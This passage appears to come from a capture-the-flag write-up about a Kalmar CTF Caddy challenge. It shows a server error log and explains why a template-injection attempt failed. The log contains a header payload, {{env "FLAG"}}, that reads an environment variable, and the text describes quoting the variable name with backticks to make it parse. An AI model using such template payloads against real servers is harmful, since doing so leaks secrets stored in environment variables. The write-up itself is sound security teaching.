 Oops, looks like the server is not happy with that. Because we are running this locally, we can dig into the logs to see what happened:
```json
{
  "level": "error",
  "ts": 1743396160.764403,
  "logger": "http.log.error",
  "msg": "template: /fetch/headers:1:3: executing \"/fetch/headers\" at <httpInclude \"/headers\">: error calling httpInclude: template: /headers:15: unexpected \"\\\\\" in operand",
  "request": {
    "remote_ip": "172.18.0.1",
    "remote_port": "43880",
    "client_ip": "172.18.0.1",
    "proto": "HTTP/1.1",
    "method": "GET",
    "host": "private.caddy.chal-kalmarc.tf",
    "uri": "/fetch/headers",
    "headers": {
      "User-Agent": [
        "Mozilla/5.0"
      ],
      "Accept": [
        "*/*"
      ],
      "Connection": [
        "close"
      ],
      "Exploit": [
        "{{env \"FLAG\"}}"
      ]
    },
    "tls": {
      "resumed": false,
      "version": 772,
      "cipher_suite": 4865,
      "proto": "",
      "server_name": "public.caddy.chal-kalmarc.tf"
    }
  },
  "duration": 0.000705071,
  "status": 500,
  "err_id": "z309yqm9f",
  "err_trace": "templates.(*Templates).executeTemplate (templates.go:460)"
}
```
We can see that in creating JSON, the server is automatically escaping the double quotes in the template, which is causing the template to fail.

It is at this point where the solution I came up with departed from the intended solution

The intended solution goes something like this: You realize that throughout the caddyfile, \` and " are used interchangeably, and then you can go and see that go uses \` for raw string literals, and " for regular strings, and that both would work to wrap the word FLAG to get the flag out.
